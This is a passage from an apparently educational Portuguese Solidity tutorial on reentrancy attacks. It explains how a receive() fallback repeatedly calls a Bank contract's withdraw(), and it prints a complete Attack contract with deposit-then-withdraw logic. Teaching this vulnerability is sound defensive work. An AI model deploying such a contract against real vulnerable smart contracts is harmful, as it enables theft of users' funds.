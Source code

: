 ### Contrato de Ataque

A principal vulnerabilidade do ataque de reentrada acontece quando o contrato transfere ETH para outro contrato. O endereço de destino das transferências de ETH pode ser um contrato que irá acionar a função fallback() ou receive() desse contrato. Se o hacker implementar a função fallback ou receive para chamar repetidamente a função withdraw() do contrato Bank, ocorrerá a reentrada. No exemplo abaixo, o fallback do contrato de ataque chama repetidamente a função withdraw() do contrato Bank.

```solidity
    receive() external payable {
        bank.withdraw();
    }
```

No contrato de ataque abaixo, a lógica é simples: por meio da função receive(), será feita uma chamada repetida à função withdraw() do contrato Bank. O contrato contém uma variável de estado `bank` para armazenar o endereço do contrato Bank e possui as seguintes funções:

- Construtor: inicializa o endereço do contrato Bank.
- `receive()`: função fallback que é acionada ao receber ETH e chama repetidamente a função `withdraw()` do contrato Bank, provocando a reentrada.
- `attack()`: função de ataque que primeiro deposita ETH no contrato Bank usando a função `deposit()`, em seguida chama a função `withdraw()` do contrato Bank iniciando o ataque de reentrada.
- `getBalance()`: função para obter o saldo de ETH no contrato de ataque.

```solidity
contract Attack {
    Bank public bank; // Endereço do contrato Bank

    // Inicializar o endereço do contrato Bank
    constructor(Bank _bank) {
        bank = _bank;
    }

    // Função fallback para realizar o ataque de reentrada
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // Função de ataque
    function attack() external payable {
        require(msg.value == 1 ether, "É necessário 1 Ether para o ataque");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // Obter o balanço do contrato de ataque
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```
